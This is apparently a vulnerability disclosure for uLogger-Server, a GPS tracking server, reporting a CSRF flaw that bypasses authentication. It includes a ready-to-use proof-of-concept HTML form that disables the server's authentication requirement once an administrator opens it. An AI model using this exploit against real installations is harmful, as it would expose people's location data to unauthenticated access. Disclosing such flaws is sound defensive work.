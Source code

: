 # Description
uLogger-Server is a featured GPS tracking server that is developed in PHP and Javascript.  
ulogger-server is vulnerable to CSRF which enables an Auth Bypass.  The following POC, if triggered by an administrator, will disable the authentication requirement on the ulogger-server, allowing unauthanticated users access to the application:
# POC
```
<html><form enctype="application/x-www-form-urlencoded" method="POST" action="http://[uLogger-Server]/utils/saveconfig.php"><table>
<tr><td>requireAuth</td><td><input type="text" value="false" name="requireAuth"></td></tr>
</table><input type="submit" value="http://[uLogger-server]/utils/saveconfig.php"></form></html>
```
This code should be saved to something like csrfpoc.html then opened by an admin authenticated user.  This will disable the authentication requirement
